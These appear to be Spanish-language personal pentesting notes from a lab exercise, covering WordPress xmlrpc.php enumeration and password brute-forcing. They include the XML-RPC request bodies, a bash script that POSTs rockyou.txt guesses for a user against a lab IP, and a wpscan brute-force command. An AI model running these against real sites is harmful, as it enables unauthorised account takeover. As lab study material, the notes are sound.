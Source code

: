 # ENUMERAR XMLRPC + ATAQUES FUERZA BRUTA WORDPRESS
También es posible que podamos enumerar este archivo el cual nos sirve para obtener credenciales de usuarios, ya que se trata de un archivo que permite la comunicación de wordpress y otros sistemas usando php; y si lo buscamos en el navegador vemos que existe pero que sólo tramita peticiones por POST:
![[Mis apuntes/ANEXOS/Pasted image 20230421133400.png]]

Por tanto con curl vamos a enviarle una petición por POST y vemos que sí nos devuelve algo en XML:
![[Mis apuntes/ANEXOS/Pasted image 20230421133532.png]]

Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Mis apuntes/ANEXOS/Pasted image 20230421133725.png]]

Y nos dicen que tenemos que tramitar esto:
![[Mis apuntes/ANEXOS/Pasted image 20230421133752.png]]
```php
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

Por tanto pegamos este código en un fichero xml:
![[Mis apuntes/ANEXOS/Pasted image 20230421133907.png]]

Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress:
![[Mis apuntes/ANEXOS/Pasted image 20230421134022.png]]

Y el servidor nos responde con todos los métodos disponibles:
![[Mis apuntes/ANEXOS/Pasted image 20230421134102.png]]

Y si miramos más en la página, vemos que nos muestran como hacer un ataque de fuerza bruta:
![[Mis apuntes/ANEXOS/Pasted image 20230421134340.png]]
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```

Y vemos que aquí si ponemos unas credenciales correctas y lo ejecutamos como antes, nos va a funcionar correctamente:
![[Mis apuntes/ANEXOS/Pasted image 20230421134520.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230421134540.png]]

En este punto podríamos hacer un ataque de fuerza bruta, tanto con un script de bash o con la propia herramienta wpscan:
```bash
#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Mis apuntes/ANEXOS/Pasted image 20230421143424.png]]

O también directamente desde la herramienta, lo cual será más rápido:
```bash
wpscan --url <url> -U <user> -P <pass>
```
![[Mis apuntes/ANEXOS/Pasted image 20230421143525.png]]

Y nos la encuentra:
![[Mis apuntes/ANEXOS/Pasted image 20230421143548.png]]
